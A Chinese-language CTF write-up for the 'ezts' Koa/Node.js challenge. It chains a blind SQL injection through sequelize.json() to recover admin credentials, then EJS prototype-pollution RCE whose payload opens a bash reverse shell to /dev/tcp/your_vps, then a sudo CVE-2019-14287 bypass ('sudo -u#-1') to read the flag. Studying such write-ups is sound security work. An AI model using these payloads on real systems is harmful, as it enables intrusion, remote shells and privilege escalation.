







题目源码：https://github.com/evi0s/ezts
ezts
题目提示：ORM $eq Not SQLi?
随便注册一个账号登陆后抓包发现Cookie中带有koa:sess字段，可以判断出是nodejs的Koa框架
sql注入
在/search路由中发现key字段查询加入单引号出现500报错，猜测存在sql注入
搜索koa ORM相关的注入：https://snyk.io/vuln/SNYK-JS-SEQUELIZE-459751
里面提到：由于sequelize.json()在格式化MySQL，MariaDB和SQLite的JSON查询的子路径时，助手功能无法正确转义值，因此此软件包的受影响版本容易受到SQL注入的攻击。
而在/search路由中，由于key字段经过ORM框架的sequelize.json()处理，所以无法对我们输入的单引号进行转义，从而出现报错。实际上复现的docker环境里报错信息直接将sql语句告诉了我们：

因此注入payload：
1 | /search?key=0'))='1' or ascii(substr(database(),1,1))=99#&value=1 |
后面就是毫无过滤的注数据了，注入exp：
1 | import requests |
注入得到admin账号：admin/049828a439142353
js原型链污染
拿到admin账号登陆后台后，进入/admin/manage路由后发现有管理用户数据和查询用户数据的功能。在管理数据部分可以对用户数据进行修改，比如我们可以修改admin用户的数据

随便提交个数据发现admin的UserData未变化，可能要提交json格式数据，提交：
1 | {"test":"test"} |

成功添加数据，那么说明就有将json格式数据合并的作用，就能想到可能存在原型链污染
试着提交如下POC：
1 | {"somnus":{"constructor":{"prototype":{"a":"b"}}}} |

会发现somnus字段的对应值不见了，说明UserData代表的数据部分是一个对象，我们提交了上述POC后已经成功污染了该对象的父类，在父类添加了一个属性a，值为b。该POC实际上就相当于执行了UserData.__proto__.a = "b"操作。
至此可以判断出此处存在原型链污染漏洞，既然前端没有啥可以利用的，只能考虑利用后端。在XNUCA的HardJS中，就利用了后端ejs模板渲染从而导致的RCE，其原理是ejs模板引擎中通常由eval等操作用于解析。我们可以污染后端ejs的某个对象从而通过模板引擎执行造成RCE。具体可以参考我之前分析的原型链污染：https://nikoeurus.github.io/2019/11/30/JavaScript%E5%8E%9F%E5%9E%8B%E9%93%BE%E6%B1%A1%E6%9F%93/
直接添加如下payload：
1 | {"content":{"constructor":{"prototype":{"client":true,"escapeFunction":"1;global.process.mainModule.require('child_process').exec('bash -c \"bash -i >& /dev/tcp/your_vps/8888 0>&1\"')"}}}} |
提交后vps上监听端口即可反弹到shell

sudo提权
反弹shell后，直接读取flag会提示权限不足，根目录下flag文件权限为0400。正常题目如果flag无权限读取一般会有个/readflag之类的可执行文件，而题目环境并没有这样的可执行文件

所以猜测可能需要进行提权的操作。这里使用了非常新的 sudo 的 CVE: CVE-2019-14287 ，参考：https://paper.seebug.org/1057/
首先使用sudo -l命令查看当前用户node的sudo配置
1 | node@40ed5c086307:/$ sudo -l |
说明node用户可以被允许以非root身份来执行命令：/bin/cat /flag
如果直接执行/bin/cat /flag会提示权限不足
但sudo -u 可以通过指定 UID 的方式来代替用户，当指定的 UID 为 -1 或 4294967295（-1 的补码，其实内部是按无符号整数处理的） 时，因此可以触发漏洞，绕过上面的限制并以root身份执行命令。所以最后的payload：
1 | sudo -u#-1 /bin/cat /flag |
